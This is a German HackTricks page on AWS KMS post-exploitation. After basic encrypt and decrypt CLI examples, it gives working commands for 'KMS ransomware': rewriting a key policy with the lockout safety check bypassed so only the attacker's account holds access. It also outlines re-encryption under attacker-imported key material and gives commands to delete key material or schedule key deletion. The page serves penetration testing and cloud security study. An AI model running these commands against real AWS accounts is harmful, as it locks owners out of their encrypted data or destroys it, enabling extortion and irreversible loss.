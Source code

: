 # AWS - KMS Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## KMS

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Informationen verschlüsseln/entschlüsseln

{% hint style="success" %}
Beachten Sie, dass die Datei, wenn Sie einige Daten innerhalb einer Datei entschlüsseln möchten, die binären Daten enthalten muss, nicht base64-kodierte Daten.
{% endhint %}

* Verwendung eines **symmetrischen** Schlüssels
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Verwendung eines **asymmetrischen** Schlüssels:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Ein Angreifer mit privilegierten Zugriff auf KMS könnte die KMS-Richtlinie von Schlüsseln ändern und **seinem Konto Zugriff darauf gewähren**, während der Zugriff, der dem legitimen Konto gewährt wurde, entfernt wird.

Dann können die Benutzer des legitimen Kontos auf keine Informationen von Diensten zugreifen, die mit diesen Schlüsseln verschlüsselt wurden, was eine einfache, aber effektive Ransomware über das Konto schafft.

{% hint style="warning" %}
Beachten Sie, dass **AWS verwaltete Schlüssel nicht von diesem Angriff betroffen sind**, nur **vom Kunden verwaltete Schlüssel**.

Beachten Sie auch die Notwendigkeit, den Parameter **`--bypass-policy-lockout-safety-check`** zu verwenden (das Fehlen dieser Option in der Webkonsole macht diesen Angriff nur über die CLI möglich).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Beachten Sie, dass Sie, wenn Sie diese Richtlinie ändern und nur einem externen Konto Zugriff gewähren, und dann von diesem externen Konto aus versuchen, eine neue Richtlinie festzulegen, um **den Zugriff auf das ursprüngliche Konto zurückzugeben, dies nicht möglich sein wird**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generische KMS-Ransomware

#### Globale KMS-Ransomware

Es gibt einen weiteren Weg, um eine globale KMS-Ransomware durchzuführen, der die folgenden Schritte umfasst:

* Erstellen Sie einen neuen **Schlüssel mit einem vom Angreifer importierten Schlüsselmaterial**.
* **Re-verschlüsseln Sie ältere Daten**, die mit der vorherigen Version verschlüsselt wurden, mit der neuen.
* **Löschen Sie den KMS-Schlüssel**.
* Jetzt könnte nur der Angreifer, der das ursprüngliche Schlüsselmaterial hat, die verschlüsselten Daten entschlüsseln.

### Schlüssel zerstören
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Beachten Sie, dass AWS jetzt **verhindert, dass die vorherigen Aktionen von einem anderen Konto aus durchgeführt werden:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
